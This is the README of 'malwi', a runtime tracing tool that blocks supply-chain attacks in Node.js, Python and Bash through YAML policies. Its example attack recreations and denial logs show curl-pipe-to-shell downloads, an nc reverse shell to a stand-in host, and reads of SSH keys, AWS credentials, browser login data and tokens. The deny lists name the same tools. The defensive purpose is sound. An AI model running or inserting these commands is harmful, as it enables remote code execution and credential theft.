

## 👹 `malwi` - Detect Evil Code

<div align="center">
  
  <h3>Stop Supply-Chain Attacks in Node.js, Python, Bash</h3>
  <p><a href="#comfyui"></a> <a href="#comfyui">ComfyUI</a> &ensp;·&ensp; <a href="#npm-install"></a> <a href="#npm-install">npm-install</a> &ensp;·&ensp; <a href="#pip-install"></a> <a href="#pip-install">pip-install</a> &ensp;·&ensp; <a href="#bash-execution"></a> <a href="#bash-execution">bash-execution</a></p>
</div>

<div align="center">

*Advanced cyberattacks threaten critical infrastructure, digital sovereignty, and the freedom of societies. Campaigns like the Shai-Hulud npm attacks (2025) demonstrated how simple it is to misuse the trust in open-source software.* `malwi` hooks into any Node.js, Python, or Bash process to block unauthorized network calls, file access, and command execution at runtime. It injects a tracing agent into your existing runtime — no source changes or custom interpreters required.

**Compatibility**: `Python 3.10-3.14` · `Node.js 21-25` · `Bash 4.4-5.3` · `macOS arm64, arm64e` ([⚠️ SIP](#macos-system-integrity-protection-sip)) and `Linux arm64, x86_64`

</div>

<div align="center">
  
</div>

## Installation

```
pip install --user malwi
```

Or download a prebuilt binary from the [latest release](https://github.com/canvascomputing/malwi/releases).

## Quick Start

`malwi` wraps any command — it injects a tracing agent into the process and enforces a [policy](cli/src/policy/presets/) on network calls, file access, commands, and function calls:

```bash
malwi x node -e "fetch('https://canvascomputing.org/api/data')"

malwi x python -c "import os; os.getenv('MISTRAL_API_KEY')"

malwi x bash -c 'cat ~/.ssh/id_rsa'
```

## Policies

Write policies in YAML to control what runs inside a process. Each section targets a different attack surface — network, commands, files, environment variables, or runtime functions. Rules can allow, deny, warn, or prompt for review.

> See [POLICY.md](docs/POLICY.md) for the full specification.

```bash
$ malwi x -p policy.yaml -- node app.js
```

Lock down outbound traffic to known hosts. The catch-all `*/**` denies everything else; `protocols` restricts to HTTPS only.

```yaml
network:
  allow: ["api.canvascomputing.org/**", "registry.npmjs.org/**"]
  deny: ["169.254.169.254/**", "*/**"]
  protocols: [https]
```

Block tools commonly used for reverse shells and data exfiltration. `review` pauses and prompts before allowing.

```yaml
commands:
  allow: [node, git, npm]
  deny: [curl, wget, nc, ncat, ssh, crontab, base64]
  warn: [docker, pip]
  review: [sudo]
```

Protect credentials and private keys from being read by untrusted code.

```yaml
files:
  deny: ["~/.ssh/**", "~/.aws/**", "*.pem", "*.key"]
```

Prevent secrets from being read out of the environment.

```yaml
envvars:
  deny: ["*SECRET*", "*PASSWORD*", "AWS_*"]
  warn: ["*TOKEN*", "*API_KEY*"]
```

Control runtime-specific functions — block dangerous APIs, log the ones you want visibility into.

```yaml
nodejs:
  deny: [eval, child_process.exec, child_process.execSync]
  log: [fetch, http.request, https.request]

python:
  deny: [ctypes.CDLL, os.system, os.popen]
  warn: [subprocess.run, subprocess.Popen.__init__]

symbols:
  deny: [getpass, crypt, dlopen, syscall]
```

## Auto-policies

When `malwi` detects a known command, it automatically applies a tailored [policy](cli/src/policy/presets/). The policy file is written to `~/.config/malwi/policies/` on first use — edit it to customise.

#### <a id="comfyui"></a> [ComfyUI](https://docs.comfy.org/)

[Upscaler-4K](https://blog.comfy.org/p/upscaler-4k-malicious-node-pack-post) (Oct 2024) was a malicious custom node (779 installs) that downloaded a stealer binary to exfiltrate browser data and Discord tokens:

```python
# simplified recreation of the Upscaler-4K attack
import urllib.request, os
urllib.request.urlopen("https://canvascomputing.org/payload")
os.system("./stealer --exfil")
open(os.path.expanduser("~/Library/Application Support/Google/Chrome/Default/Login Data")).read()
os.getenv("DISCORD_TOKEN")
```

Running ComfyUI under `malwi` blocks every stage:

```
$ malwi x python main.py
[malwi] denied: urllib.request.urlopen(url='https://canvascomputing.org/payload', ...)  malicious_node.py:3
[malwi] denied: os.system(cmd='./stealer --exfil')  malicious_node.py:4
[malwi] denied: open('~/Library/Application Support/Google/Chrome/Default/Login Data', 'r')  malicious_node.py:5
[malwi] denied: DISCORD_TOKEN
```

#### <a id="npm-install"></a> [npm-install](https://www.npmjs.com/)

[warbeast2000 and kodiak2k](https://thehackernews.com/2024/01/malicious-npm-packages-exfiltrate-1600.html) (Jan 2024) were malicious npm packages that exfiltrated SSH keys from developers' machines via postinstall scripts:

```javascript
// simplified recreation of an npm supply chain attack
const { exec } = require("child_process");
const fs = require("fs");
exec("curl canvascomputing.org/demo | sh");
fs.readFileSync(process.env.HOME + "/.ssh/id_rsa");
```

Running `npm install` under `malwi` catches the shell-out and file access:

```
$ malwi x npm install
[malwi] denied: curl canvascomputing.org/demo | sh
[malwi] denied: fs.readFileSync("~/.ssh/id_rsa")  postinstall.js:4
```

#### <a id="pypi-install"></a> [pypi-install](https://pypi.org/)

[Ultralytics](https://www.reversinglabs.com/blog/compromised-ultralytics-pypi-package-delivers-crypto-coinminer) (Dec 2024) was a compromised ML library (68M+ downloads) that deployed a crypto miner and exfiltrated environment variables via setup.py:

```python
# simplified recreation of a PyPI supply chain attack
import os
os.system("curl canvascomputing.org/demo | sh")
open(os.path.expanduser("~/.aws/credentials")).read()
```

Running `pip install` under `malwi` blocks the shell-out and credential access:

```
$ malwi x pip install malicious-package
[malwi] denied: os.system(cmd='curl canvascomputing.org/demo | sh')  setup.py:3
[malwi] denied: open('~/.aws/credentials', 'r')  setup.py:4
```

#### <a id="bash-execution"></a> [bash-execution](https://www.gnu.org/software/bash/)

[perfctl](https://www.aquasec.com/blog/perfctl-a-stealthy-malware-targeting-millions-of-linux-servers/) (2024) was a cryptomining malware that infected thousands of Linux servers via curl-piped bash scripts, establishing cron persistence and deploying rootkits:

```bash
# simplified recreation of a malicious install script
nc canvascomputing.org 4444 -e /bin/sh
crontab -l
cat ~/.ssh/id_rsa
```

Piping through `malwi` blocks every command:

```
$ curl -fsSL canvascomputing.org/install-demo.sh | malwi x bash
[malwi] denied: nc canvascomputing.org 4444 -e /bin/sh  install.sh:2
[malwi] denied: crontab -l  install.sh:3
[malwi] denied: cat ~/.ssh/id_rsa  install.sh:4
```

## How It Works

An agent library is injected into the target process via `DYLD_INSERT_LIBRARIES` (macOS) or `LD_PRELOAD` (Linux). It hooks Node.js, Python, Bash, and native function calls and streams them to the CLI over TCP. The CLI evaluates each call against the policy. Network allowlists auto-hook HTTP functions and enforce URL matching. Tracing propagates to child processes. No source changes required.

```
┌─────────────────────────────────────┐
│ malwi CLI                           │
│  Policy Engine → allow/deny/warn    │
└────┬────────────────────▲───────────┘
     │ inject             │ TCP (trace events)
     ▼                    │
┌────────────────────────────────────┐
│ Target Process                     │
│  Agent: Node.js · Python · Bash ·  │
│         Native symbol hooks        │
└────────────────────────────────────┘
```

| ⚠️ Limitations | Mitigation |
|:--|:--|
| Inline `SVC`/`SYSCALL` bypasses libc hooks | `in planning` |
| [SIP-protected](#macos-system-integrity-protection-sip) child processes run untraced on macOS | `in planning` |

## macOS System Integrity Protection (SIP)

macOS SIP prevents `DYLD_INSERT_LIBRARIES` from loading into binaries under certain paths.

| SIP | Paths |
|--|-------|
| ✅ `malwi` works here | `/usr/local`, `/opt`, `~` |
| **⚠️ SIP-protected** | `/System`, `/usr`, `/bin`, `/sbin`, `/var`, `/Applications` |

> Security researchers may disable SIP at their own risk.

## Security

To report a vulnerability, email [security@canvascomputing.org](mailto:security@canvascomputing.org). See [SECURITY.md](.github/SECURITY.md) for details.

A full dependency listing is automatically regenerated on every build when `Cargo.lock` or `package-lock.json` change. See [`DEPENDENCIES.md`](DEPENDENCIES.md).

## Development

See [DEVELOPMENT.md](docs/DEVELOPMENT.md).
